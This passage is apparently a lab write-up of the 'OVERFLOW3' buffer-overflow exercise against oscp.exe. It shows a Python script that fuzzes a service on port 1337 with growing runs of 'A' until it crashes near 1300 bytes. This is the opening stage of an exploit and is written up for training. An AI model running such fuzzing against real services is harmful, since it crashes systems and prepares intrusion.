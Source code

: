 # Fuzzing

The first step is to see how many bytes it takes to crash the application. I can do this with the following python script:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.151.246"

port = 1337
timeout = 5
prefix = "OVERFLOW3 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

With Immunity running as administrator, I open and unpause oscp.exe on the target, and run the above python script.

I see that the crash happens around 1300 bytes and that the registers are now filled with A's

![image](https://user-images.githubusercontent.com/83407557/185418233-ce6ff438-13e4-47be-834a-ebc61c0cf815.png)

![image](https://user-images.githubusercontent.com/83407557/185418517-ddd7adf7-933c-4404-87b3-f0640b69ca6e.png)

